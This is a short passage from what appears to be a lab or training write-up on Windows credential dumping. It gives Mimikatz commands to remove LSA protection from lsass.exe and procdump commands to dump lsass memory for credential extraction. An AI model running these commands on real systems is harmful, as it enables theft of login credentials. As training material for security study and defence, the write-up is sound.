\
Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

**Victim(mimikatz)**

```
!processprotect /process:lsass.exe /remove
```



<figure><img src="../../.gitbook/assets/image (11) (13).png" alt=""><figcaption></figcaption></figure>

**Victim(cmd)**

```
copy C:\Users\thm\AppData\Local\Temp\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
```

**Victim(cmd)**

```
c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump
```

<figure><img src="../../.gitbook/assets/image (18) (8).png" alt=""><figcaption></figcaption></figure>
